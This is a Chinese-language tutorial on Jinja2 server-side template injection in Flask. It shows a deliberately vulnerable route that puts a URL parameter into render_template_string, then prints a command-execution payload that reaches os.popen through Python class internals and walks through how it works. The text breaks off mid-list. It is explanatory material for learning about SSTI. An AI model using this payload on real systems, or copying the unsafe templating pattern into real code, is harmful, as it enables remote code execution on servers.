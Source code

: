 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前函数所在命名空间下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*
- 
